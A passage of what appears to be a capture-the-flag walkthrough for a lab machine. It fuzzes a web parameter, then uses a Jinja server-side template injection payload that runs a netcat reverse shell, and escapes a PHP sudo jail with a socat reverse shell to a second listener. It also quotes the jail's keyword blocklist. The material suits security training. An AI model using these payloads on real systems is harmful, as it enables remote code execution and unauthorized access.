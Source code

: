 ```console
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 46656 

crunch: 100% completed generating output
```
## Finding the parameter  (port 5000)
```console
┌──(alienum㉿kali)-[~/Desktop]
└─$ wfuzz -w  list.txt  --hh 8  'http://10.0.2.176:5000/sh4d0w$s?FUZZ=name'

Target: http://10.0.2.176:5000/sh4d0w$s?FUZZ=name
Total requests: 46656

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                          
=====================================================================

000024912:   200        0 L      1 W        4 Ch        "l333tt"
```
## Server Side Template Injection
```console
http://10.0.2.176:5000/sh4d0w$s?l333tt={{request.application.__globals__.__builtins__.__import__('os').popen('nc -e /bin/sh 10.0.2.15 4444').read()}}
```
#### Listener
```console
┌──(alienum㉿kali)-[~/Desktop]
└─$ nc -lvp 4444                                                                                              2 ⚙
listening on [any] 4444 ...
connect to [10.0.2.15] from 10.0.2.176 [10.0.2.176] 59760
/usr/bin/script -qc /bin/bash /dev/null
www-data@orasi:~/html$
```
##  PHP Jail Escape
```console
www-data@orasi:~/html$ sudo -l
User www-data may run the following commands on orasi:
    (kori) NOPASSWD: /bin/php /home/kori/jail.php *
	
ww-data@orasi:~/html$ cat /home/kori/jail.php
cat /home/kori/jail.php
...
if(preg_match('/(`|bash|eval|nc|whoami|open|pass|require|include|file|system|\/)/i', $var)) 
...
www-data@orasi:~/html$ which socat
/usr/bin/socat
www-data@orasi:~/html$ sudo -u kori /bin/php /home/kori/jail.php "socat TCP:10.0.2.15:5555 EXEC:sh"
```
#### Listener 
```console
┌──(alienum㉿kali)-[~]
└─$ nc -lvp 5555
listening on [any] 5555 ...
connect to [10.0.2.15] from 10.0.2.176 [10.0.2.176] 60606
id
uid=1001(kori) gid=1001(kori) groups=1001(kori)
```